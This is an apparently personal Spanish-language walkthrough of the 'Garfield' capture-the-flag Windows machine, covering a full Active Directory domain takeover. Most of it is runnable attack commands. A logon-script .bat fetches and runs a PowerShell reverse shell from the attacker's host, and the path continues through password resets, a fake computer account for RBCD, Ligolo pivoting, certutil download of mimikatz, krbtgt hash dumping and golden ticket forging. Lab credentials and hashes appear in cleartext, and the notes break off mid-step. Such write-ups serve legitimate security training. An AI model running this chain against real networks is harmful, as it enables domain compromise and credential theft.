# Garfield
**IP:** 10.10.14.165 | **Target:** 10.129.26.30 | **Dificultad:** Dificil | **Sistema:** Windows 

## Fase1: Reconocimiento ye scaneo de puertos

Escaneo de todos los peurtos y servicion

```bash
nmap -n -Pn -sV -sC -p- --min-rate 3000 10.129.26.30
```

* puerto 3389 muestra DC01.garfield.htb


Se agrega el dominio a mi maquina
```bash
echo "10.129.26.30 garfield.htb DC01.garfield.htb" >> /etc/hosts
```


Probaremos las credenciales
```bash
netexec smb 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
```


Si no tenemos credenciales, usaremos 
```bash
netexec smb 10.129.28.253 -u 'guest' -p '' --shares
```
Para ver si tenemos permisos de lectura sobre algo

Abriremos bloodhound en este orden
```bash
neo4j start 
cd Downloads
cd BloodHound-linux-x64 
./BloodHound --no-sandbox 
```
Generaremos el rar con

```bash
bloodhound-python -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -ns 10.129.26.30 -c all --zip
```


Ver carpetas compartidas (se encontraron caprpetas tipicas)
```bash
netexec smb 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares
```
Entrar a SYSVOL para encontrar contraseñas (nada)
```bash
netexec smb 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M gpp_password
```
Listar usuario y veri si dejaron contraseñas anotadas (nada)
```bash
netexec ldap 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --users
```
Encontrar cuentas con SPN para robarle el hash (tampoco)
```bash
impacket-GetNPUsers garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -dc-ip 10.129.26.30
```
Ver sla vulneraviliad para encontrar llaves de entrada (nada)
```bash
netexec ldap 10.129.26.30 -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M pre2k
```

## Manual
Volcamos todo el LDAP a archivos HTML para leer atributos de los usuarios

```bash
ldapdomaindump 10.129.26.30 -u 'garfield.htb\j.arbuckle' -p 'Th1sD4mnC4t!@1978' --no-json --no-grep
```

* LLendo a la carpeta dowloads y abriedo el archivo users, como tenes credenciales de j.arbuckle, sera lo que buscaremos


* J.arbuckle pertenece al grupo IT Support

```bash
# Ejemplo de cómo un atacante revisa sus propios derechos a ciegas
impacket-dacledit garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978' -action read -target 'l.wilson' -dc-ip 10.129.26.30
```


* Se buscara la que en Trustee diga "IT_Support"

* Menciona: **"Al grupo IT Support se le PERMITE tener acceso de WriteProperty (Escritura) sobre el atributo Script-Path del perfil de Liz Wilson".**

## Armando la trampa
Vamos a crear un archivo .bat muy sencillo que descargará y ejecutará una Reverse Shell en memoria.

Se usara un scrip clasico de poweshell
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1 -O rev.ps1
```
Le añadiremos la configuracion de ip y puerdo a ese archivo rev.ps1
```bash
echo "Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.165 -Port 4444" >> rev.ps1
```
Ahora crearemos un archivo .bat que descargara mi payload

```bash
echo "powershell.exe -c \"IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.165:8000/rev.ps1')\"" > printerDetect.bat
```
Listo ahora con ambos archivos creados, subieremos el .bat

```bash
smbclient //10.129.26.30/SYSVOL -U 'j.arbuckle'
# Contraseña: Th1sD4mnC4t!@1978
# smb: \> cd garfield.htb\scripts
# smb: \garfield.htb\scripts\> put printerDetect.bat
# smb: \garfield.htb\scripts\> exit
```


Levantamos un servidor web
```bash
python3 -m http.server 8000
```
En otra terminal un netcat (escucha)
```bash
nc -lvnp 4444
```
Y en otr termial lanzamos el ataque
```bash
bloodyAD -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --host 10.129.26.30 set object "CN=Liz Wilson,CN=Users,DC=garfield,DC=htb" scriptPath -v "printerDetect.bat"
```


Y listo tendremos acceso a la terminal


Al estar en un powe shell no podremos usar dir para buscar el user.flag, **pero tampoco lo encontrarelos con comandos powershell, **no tendremos permiso**

```bash
# dir /s C:\Users\l.wilson\*.txt
# Get-ChildItem -Path C:\Users\ -Filter user.txt -Recurse -ErrorAction SilentlyContinue
```


Ahora con este usuario vulnerado, lo ubicamos en el bloodhound, en el apartado "outbound object control" lo que nos permitira restablecer su contraseña


Restableceremos su contraseña a "PwnedCat!2026" (**No fue necesario estar en el apartado Links**)
```bash
$newpass = ConvertTo-SecureString 'PwnedCat!2026' -AsPlainText -Force
Set-ADAccountPassword -Identity l.wilson_adm -NewPassword $newpass -Reset
```
Ahora mediante wilnrm, podremos conectarnos remotamente y pedir la contraseña
```bash
evil-winrm -i 10.129.26.30 -u 'l.wilson_adm' -p 'PwnedCat!2026'
# type C:\Users\l.wilson_adm\Desktop\user.txt
```


Hacinedo ip config veremos otra ip


* Nuevo ip 192.168.100.1 y 192.168.100.2 (con arp -a)

* Existe un grupo RODC Administrator **importante porque el bloodhound no lo muestra**

Y nuestro nuevo comiendo es con "l.wilson_adm"


## Nueva meta
Con la shell de la maquina vulnerada, enumeraremos lo que podremos encontrar, por ejemplo controladores de dominio de solo lectura (para ver todos quitar el read-only)

```bash
net group "Read-Only Domain Controllers" /domain
```

* Se encontro un controlador de dominio no visto en el bloodhoun que se conecta con la nueva ip que encontramos "192.168.100.1"

Otros comando importantes para enumerar

```bash
route print
arp -a
```
Ahora buscamos en el bloodund RODC

* Tendremos la ruta, primero añadirnos al grupo RODC administrators (ADself)

Ojo en wilRM al principoo solo no sale "TIER 1"


Nos añadiremos ha RODC Administrators con:

```bash
bloodyAD --host 10.129.26.30 -u l.wilson_adm -p 'PwnedCat!2026' add groupMember "RODC Administrators" l.wilson_adm
```


y lo confirmamos en WinRM denuevo con (sale ahora RODC Administrators) :


### Pivoting ligolo

Borramos rutas viejas, primero ver las interfaces y las rutas

```bash
ip a
ip route
```
Limpiamos

```bash
sudo ip link delete ligolo 2>/dev/null
```

Ahora crearemos una interfaz de red y se encendera
```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
ip a
```


Se configura la ruta hacia la dred interna (red interna: 192.168.100.1)

```bash
ip route add 192.168.100.0/24 dev ligolo
```

ejecutamos el proxy
```bash
./proxy -selfcert -laddr 0.0.0.0:443
```
Ahora en la consolo WinRM de l.wilson_adm subiremos el agente

```bash
upload agent.exe
```
Una vez subido, sinedo nuestra ip de kali (tun0 openvpn) 10.10.14.165, ejecutamos

```bash
.\agent.exe -connect 10.10.14.165:443 -ignore-cert
```


Ejecutamos session y listo **Poner "start"**




Podremos hacer ping desde el kali hasta la red interna


Y entraremos:
```bash
evil-winrm -i 192.168.100.2 -u 'l.wilson_adm' -p 'PwnedCat!2026'
```


Recordando una foto anterior

* Explicitamente dice no usar krbtgt en RODC, entons se usara krbtgt_8245 para RODC

## Obtencion del SID y NTLM (Mimikatz)
**Se tuvo una shell en WinRM pero para usar krbtgt se necesita PsExec**

**Pero** Como el usuario l.wilson_adm fue agregado al grupo de Administradores del RODC, tienes permisos para modificar cómo se comporta el servidor RODC01, pero no tienes permisos directos de Sistema. Vamos a crear una "máquina falsa" para engañar al dominio. (antes del pivoting, y se vera al actualizar el bloodhound)


Entonces se crea una computadora falsa (HACKERPC$):

```bash
impacket-addcomputer garfield.htb/l.wilson_adm:'PwnedCat!2026' -computer-name 'HACKERPC$' -computer-pass 'Hacker123!' -dc-ip 10.129.26.30
```
Le damos el atributo msDS "para hacerse pasar por quien le de la gana"

```bash
impacket-rbcd garfield.htb/l.wilson_adm:'PwnedCat!2026' -delegate-from 'HACKERPC$' -delegate-to 'RODC01$' -dc-ip 10.129.26.30 -action write
```
Sinctronizamos el reloj y limpiamos el entorno virual
```bash
sudo ntpdate 10.129.26.30
unset KRB5CCNAME
rm *.ccache 2>/dev/null
```
Solicitamos el ticket de administrador
```bash
impacket-getST garfield.htb/HACKERPC\$:'Hacker123!' -spn cifs/RODC01.garfield.htb -impersonate Administrator -dc-ip 10.129.26.30
```

Cargamos el ticke a la memoria
```bash
export KRB5CCNAME=$(ls *.ccache)
```

Ahora obtendremos la consola como system
```bash
impacket-psexec garfield.htb/Administrator@RODC01.garfield.htb -k -no-pass -target-ip 192.168.100.2
```


Pasaremos el mimikatz, primero iremos a la carpeta donde se ubique y abrimos un servidor

```bash
cd /usr/share/windows-resources/mimikatz/x64/
python3 -m http.server 80
```
Y en la consola system ejecutamos lo siguiente y tendremos el mimikatz en la maquina
```bash
certutil -urlcache -f -split http://10.10.14.165/mimikatz.exe mimikatz.exe
```


Ahora ejecutamos el mimikatz (probar siempre el priemro)
```bash
.\mimikatz.exe "privilege::debug" "lsadump::lsa /patch /name:krbtgt_8245" "exit"
```
```bash
.\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "lsadump::lsa /patch" "exit"
```

* Obtendremos la SID :S-1-5-21-2502726253-3859040611-225969357
* Obtendremos NTLM hash: 445aa4221e751da37a10241d962780e2


## Atque boleto dorado
**Ojo QUE NO FUE EL CAMINO, INICIAL**
```bash
rdate -n 10.129.26.30    
```

Sincronizamos el tiempo y creamos el boleto falsto

```bash
impacket-ticketer -nthash 445aa4221e751da37a10241d962780e2 -domain-sid S-1-5-21-2502726253-3859040611-225969357 -domain garfield.htb -extra-sid S-1-5-21-2502726253-3859040611-225969357-519 Administrator
```


Cargamos el boleto en la memoria, borrando antes la que estaba guardada con unset
```bash
unset KRB5CCNAME
export KRB5CCNAME=Administrator.ccache
```
Y obendremos el acceso
```bash
impacket-psexec garfield.htb/Administrator@dc01.garfield.htb -target-ip 10.129.26.30 -k -no-pass
```
**Dara error porque Ocurre porque el DC01 se da cuenta de que las firmas criptográficas del PAC en el ticket generado por Impacket no coinciden perfectamente con el estándar moderno de Microsoft para un RODC**

**SOLUCION**,PaRA ello utilizaremos la herramienta rubeus y la moveremos a la carpeta de mimikatz (v3.2.2)
Primero

```bash
wget https://raw.githubusercontent.com/Flangvik/SharpCollection/master/NetFramework_4.7_x64/Rubeus.exe -O Rubeus_v2.exe
```

```bash
mv Rubeus.exe /usr/share/windows-resources/mimikatz/x64/
```

